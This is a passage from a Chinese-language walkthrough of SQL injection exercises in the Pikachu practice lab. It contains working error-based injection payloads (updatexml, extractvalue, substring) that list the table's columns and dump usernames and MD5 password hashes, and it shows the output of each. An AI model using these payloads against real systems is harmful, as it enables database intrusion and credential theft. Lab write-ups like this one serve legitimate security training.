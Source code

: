 回显：XPATH syntax error: '~httpinfo,member,message,users,x'

查看表中 column 名：

```sql
'
1' and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users')),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'))) or'
```

回显：XPATH syntax error: '~id,username,password,level'

获取用户名、密码：

```sql
'
1' and updatexml(1,concat('~',(select group_concat(username,'@',password) from pikachu.users)),0) or'
#
1' and extractvalue(1,concat('~',(select group_concat(username,'@',password) from pikachu.users))) or'
```

回显：XPATH syntax error: '~admin@e10adc3949ba59abbe56e057f'

**回显长度有限制，为 32 字符**

使用 substring(str,start,length)函数，start 从 1 开始

```sql
'
1' and updatexml(1,concat(0x7e,substring((select group_concat(username,'@',password)  from pikachu.users),1,30)),0) or'
'
#01-30#~admin@e10adc3949ba59abbe56e057
#31-60#~f20f883e,pikachu@670b14728ad99
#61-90#~02aecba32e22fa4f6bd,test@e99a1
#91-  #~8c428cb38d5f260853678922e03
```

**admin@e10adc3949ba59abbe56e057f20f883e,**

**pikachu@670b14728ad9902aecba32e22fa4f6bd,**

**test@e99a18c428cb38d5f260853678922e03**

#### "delete"注入

sql 语句：

```sql
delete from message where id={$_GET['id']}
```

使用 updatexml 尝试显错注入

#### "http header"注入
